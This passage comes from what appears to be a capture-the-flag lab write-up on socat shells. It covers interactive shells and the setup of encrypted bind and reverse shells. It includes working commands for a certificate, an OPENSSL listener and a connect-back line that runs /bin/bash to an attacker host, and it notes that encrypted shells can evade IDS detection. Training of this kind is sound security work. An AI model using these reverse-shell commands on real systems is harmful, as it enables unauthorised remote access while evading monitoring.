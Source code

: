 ![](https://i.imgur.com/etAuYzz.png)

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding ```-d -d``` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

```
How would we get socat to listen on TCP port 8080?
> TCP-L:8080
```

## Task 7 - Socat Encrypted Shells 

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time ```TCP``` was used as part of a command, this should be replaced with ```OPENSSL``` when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.

We then need to merge the two created files into a single ```.pem``` file:
```bash
cat shell.key shell.crt > shell.pem
```

Now, when we set up our reverse shell listener, we use:
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```


This sets up an OPENSSL listener using our generated certificate. ```verify=0``` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

The same technique would apply for a bind shell:
